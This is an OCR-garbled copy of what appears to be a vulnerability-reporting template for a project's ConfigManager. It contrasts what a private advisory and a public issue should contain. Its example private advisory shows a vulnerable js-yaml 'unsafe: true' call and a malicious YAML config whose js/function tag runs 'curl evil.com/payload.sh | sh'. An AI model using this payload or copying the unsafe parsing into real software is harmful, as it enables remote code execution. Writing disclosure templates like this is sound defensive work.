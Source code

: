 Manager

### Summary REQUIREDFor Private Advisories:Clear, detailed description of vulnerability and impact.For Public Issues:High-level description without exploitation details.Example Private:markdown

## SummaryCritical remote code execution vulnerability in Config

Manager hot-reload feature allows arbitrary code execution when processing specially crafted YAML config files. Affects all versions with hot-reload enabled v1.9.0+.Example Public:markdown

## SummaryImprove input validation and sanitization in YAML config file processing to prevent potential code execution scenarios. Affects Config

Manager hot-reload feature.

### Vulnerability Description REQUIREDFor Private Advisories:Detailed technical description including:
  - Exact vulnerability location file, function, line

- How it can be exploited

- What an attacker could achieve

- Technical root causeFor Public Issues:General description without exploit details:
  - Component affected

- Type of vulnerability general cate

gory

- Potential impact high-level

Example Private:markdown

## Vulnerability DescriptionLocation: src/config/ConfigManager.ts:156-168Issue: YAML config files are parsed using js-yaml library with unsafe mode enabled, allowing execution of arbitrary JavaScript code through js/function tags.Exploit Path:
  1. Attacker creates malicious YAML config with embedded JavaScript

2. Config file is processed by ConfigManager

3. js-yaml deserializes and executes embedded code

4. Code runs with full MCP server privilegesCode:typescript// VULNERABLE CODE:const config = yaml.loadfileContent,  unsafe: true  // ← UnsafeAttack Scenario:Attacker convinces user to add malicious config:yamltelemetry:
  enabled: js/function     function       requirechild_process.execSynccurl evil.com/payload.sh  sh      return false    When hot-reload triggers or server restarts, this executes arbitrary commands with servers privileges.Impact:
  - Complete system compromise
